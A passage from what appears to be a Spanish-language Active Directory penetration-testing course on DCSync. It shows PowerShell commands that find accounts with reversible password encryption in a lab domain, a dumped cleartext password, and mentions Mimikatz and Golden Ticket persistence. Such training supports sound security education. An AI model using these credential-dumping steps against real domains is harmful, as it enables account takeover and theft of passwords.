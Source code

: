   Dcsync

```powershell-session
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :
```

Podemos ver esa cuenta,`proxyagent`, también tiene la opción de cifrado reversible con PowerView:

#### Comprobación de la opción de cifrado reversible usando Get-Domainuser

  Dcsync

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

Notaremos que la herramienta descifró la contraseña y nos proporcionó el valor de ClearText.

#### Mostrando la contraseña descifrada

  Dcsync

```shell-session
xnoxos@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

He estado en algunos compromisos en los que todas las cuentas de usuario se almacenaron utilizando cifrado reversible. Algunos clientes pueden hacer esto para poder volcar NTDS y realizar auditorías de resistencia de contraseña periódica sin tener que recurrir al agrietamiento de contraseñas fuera de línea.

Podemos realizar el ataque con Mimikatz también. Usando Mimikatz, debemos apuntar a un usuario específico. Aquí nos dirigiremos a la cuenta de administrador incorporada. También podríamos apuntar al`krbtgt`cuenta y use esto para crear un`Golden Ticket`Para persistencia, pero eso está fuera del alcance de este módulo.

También es importante tener en cuenta que Mimikatz debe ejecutarse en el contexto del usuario que tiene privilegios DCSYNC. Podemos utilizar`runas.exe`Para lograr esto:
